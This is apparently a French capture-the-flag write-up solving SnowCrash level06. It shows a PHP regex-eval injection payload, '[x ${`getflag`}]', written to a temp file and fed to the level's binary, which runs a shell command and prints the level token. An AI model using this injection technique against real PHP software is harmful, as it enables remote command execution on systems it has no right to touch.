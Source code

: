 Créons un fichier temporaire /tmp/t avec le contenu :
```bash
[x ${`getflag`}]
```
- `[x ...]` : délimite le motif reconnu par l'expression régulière.
- ${\`getflag\`} : syntaxe PHP permettant d'exécuter `getflag` en shell via les backticks.

```bash
echo "[x \${\`getflag\`}]" > /tmp/t
```

Puis on exécute le binaire
```bash
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```